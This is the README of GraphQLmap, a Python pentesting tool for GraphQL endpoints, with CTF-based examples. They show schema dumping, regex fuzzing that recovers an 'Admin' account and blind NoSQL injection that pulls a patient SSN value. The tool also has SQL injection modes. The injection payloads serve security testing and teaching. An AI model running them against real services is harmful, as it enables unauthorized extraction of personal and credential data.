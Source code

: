 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - Execute GraphQL queries
  - Autocomplete queries
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```basic
$ git clone git@github.com:swisskyrepo/GraphQLmap.git
$ python graphqlmap.py                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]]

optional arguments:
  -h, --help          show this help message and exit
  -u URL              URL to query : example.com/graphql?query={}
  -v [VERBOSITY]      Enable verbosity
  --method [METHOD]   HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS] HTTP Headers sent to /graphql endpoint
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```
python3 graphqlmap.py -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'
```

### Dump a GraphQL schema

Use `dump_new` to dump the GraphQL schema, this function will automaticly populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump_new                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```


## TODO

* Docker with vulnerable GraphQL
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
